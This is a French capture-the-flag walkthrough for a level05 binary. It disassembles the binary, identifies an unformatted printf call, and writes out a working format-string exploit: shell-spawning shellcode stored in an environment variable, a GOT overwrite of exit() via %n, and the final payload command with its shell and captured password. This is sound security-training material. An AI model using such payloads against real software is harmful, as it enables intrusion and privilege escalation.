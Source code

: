 # Analyse

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
```

## Binaire

`./level05`
```

```
`test`
```
test
```
## Gdb

`info function`
```asm
[...]
  0x08048444  main
[...]
```

`disas main`
```asm
Dump of assembler code for function main:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	push   edi
   0x08048448 <+4>:	push   ebx
   0x08048449 <+5>:	and    esp,0xfffffff0
   0x0804844c <+8>:	sub    esp,0x90                         ; 144 octets pour la stack
   0x08048452 <+14>:	mov    DWORD PTR [esp+0x8c],0x0         ; int i @ esp+0x8c = 0
   0x0804845d <+25>:	mov    eax,ds:0x80497f0
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>:	mov    DWORD PTR [esp+0x4],0x64
   0x0804846e <+42>:	lea    eax,[esp+0x28]                   ; buffer @ 0x+28
   0x08048472 <+46>:	mov    DWORD PTR [esp],eax
   0x08048475 <+49>:	call   0x8048350 <fgets@plt>            ; fgets(buffer, 100, stdin);
   0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0         ; i = 0
   0x08048485 <+65>:	jmp    0x80484d3 <main+143>             ; jump <+143>
   0x08048487 <+67>:	lea    eax,[esp+0x28]
   0x0804848b <+71>:	add    eax,DWORD PTR [esp+0x8c]
   0x08048492 <+78>:	movzx  eax,BYTE PTR [eax]
   0x08048495 <+81>:	cmp    al,0x40
   0x08048497 <+83>:	jle    0x80484cb <main+135>             ; if buffer[i] <= 64: jump <+135>
   0x08048499 <+85>:	lea    eax,[esp+0x28]
   0x0804849d <+89>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484a4 <+96>:	movzx  eax,BYTE PTR [eax]
   0x080484a7 <+99>:	cmp    al,0x5a
   0x080484a9 <+101>:	jg     0x80484cb <main+135>             ; if buffer[i] > 90:  jump <+135>
   0x080484ab <+103>:	lea    eax,[esp+0x28]
   0x080484af <+107>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484b6 <+114>:	movzx  eax,BYTE PTR [eax]
   0x080484b9 <+117>:	mov    edx,eax
   0x080484bb <+119>:	xor    edx,0x20
   0x080484be <+122>:	lea    eax,[esp+0x28]
   0x080484c2 <+126>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484c9 <+133>:	mov    BYTE PTR [eax],dl                ; buffer[i] = buffer[i] ^ 32
   0x080484cb <+135>:	add    DWORD PTR [esp+0x8c],0x1         ; i++
   0x080484d3 <+143>:	mov    ebx,DWORD PTR [esp+0x8c]         ; ebx = i
   0x080484da <+150>:	lea    eax,[esp+0x28]
   0x080484de <+154>:	mov    DWORD PTR [esp+0x1c],0xffffffff  ; int a @ esp+01xc = -1
   0x080484e6 <+162>:	mov    edx,eax                          ; edx = buffer
   0x080484e8 <+164>:	mov    eax,0x0                          ; eax = 0
   0x080484ed <+169>:	mov    ecx,DWORD PTR [esp+0x1c]         ; ecx = a = -1
   0x080484f1 <+173>:	mov    edi,edx                          ; edi = buffer
   0x080484f3 <+175>:	repnz scas al,BYTE PTR es:[edi]
   0x080484f5 <+177>:	mov    eax,ecx
   0x080484f7 <+179>:	not    eax
   0x080484f9 <+181>:	sub    eax,0x1                          ; eax = strlen(buffer)
   0x080484fc <+184>:	cmp    ebx,eax
   0x080484fe <+186>:	jb     0x8048487 <main+67>              ; if i < strlen(buffer):  jump <+67> (boucle)
   0x08048500 <+188>:	lea    eax,[esp+0x28]
   0x08048504 <+192>:	mov    DWORD PTR [esp],eax
   0x08048507 <+195>:	call   0x8048340 <printf@plt>           ; printf(buffer);
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:	call   0x8048370 <exit@plt>             ; exit(0);
End of assembler dump.
```

# Exploit

Le programme lit 100 octets sur stdin qu'il place dans un buffer, puis le parcourt et xor par 32 chaque octet entre 64 et 90 (ca revient à faire un to_lower).
Enfin, il utilise printf pour l'afficher, sans format string en premier argument (donc vulnérable car nous contrôlons le buffer).

On va pouvoir exploiter le printf pour écrire où nous le souhaitons, mais le programme ne return à aucun moment donc inutile de réécrire l'EIP.

L'objectif être de [remplacer son entrée dans la dans la Global Offset Table](https://axcheron.github.io/exploit-101-format-strings/) par [un shellcode](https://www.exploit-db.com/exploits/42428).

En mettant notre shellcode en input le xor va altérer son contenu donc on va devoir passer par une variable d'environnement pour le faire exécuter.
Pour plus d'informations sur les format string exploit et les override d'adresse dans la globale offset table, cf [RainFall/level3](https://github.com/Alhuin/rainfall/blob/main/level3/walkthrough.md) & [RainFall/level5](https://github.com/Alhuin/rainfall/blob/main/level5/walkthrough.md).

En utilisant le modifier %n de printf, on peut écrire à une adresse (habituellement celle d'une variable qui lui est fournie en paramètre) le nombre d'octets précédemment lus dans la format string.

`export SHELLCODE=$(python -c 'print "\x90"*1000 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')`

`gdb level5`
```
(gdb) b * main
Breakpoint 1 at 0x8048444
(gdb) r
Starting program: /home/users/level05/level05
(gdb) x/140s environ
[...]
0xffffd4bc: SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\2
[...]
```
- On a l'adresse de notre varibale d'environnement : 0xffffd4bc, mais on va prendre une adresse un peu plus loin pour être sur de tomber dans la nopsled: 0xffffd64c.

`python -c 'print "aaaa " + "%08x " * 20' | ./level05`
```
aaaa 00000064 f7fcfac0 f7ec3af9 ffffd6bf ffffd6be 00000000 ffffffff ffffd744 f7fdb000 61616161 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830
```
- printf() commence à lire le début de la format string au `10eme paramètre`.

`objdump -R level05`
```
level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```
- l'adresse d'exit dans la global offset table est `0x80497e0`

On veut donc écire 0xffffd64c à l'adresse 0x80497e0 avec %n, mais 0xffffd64c est trop grand pour tenir dans un seul int, on va donc écrire ce nombre en deux fois, sur deux short ints (2 octets): d64c = 54860 à 0x80497e0 et ffff = 65535 à 0x80497e2.

Notre payload final sera:
- '\xe0\x97\x04\x08'    // l'adresse GOT de exit()
- '\xe2\x97\x04\x08'    // l'adresse GOT de exit() + 2 octets
- '%54852d'             // 54860 - les 8 octets des deux adresses précédentes = 54852
- '%10$n'              // écrit la première moitié de l'adresse du shellcode à l'adresse GOT de exit()
- '%10675d'             // 65535 - ce qu'on a déjà écrit (54860) = 10675
- '%11$n'             // écrit la deuxième moitié de l'adresse du shellcode à l'adresse GOT de exit() + 2

`(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54852d" + "%10$n" + "%10675d" + "%11$n"';cat) | ./level05`
```
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
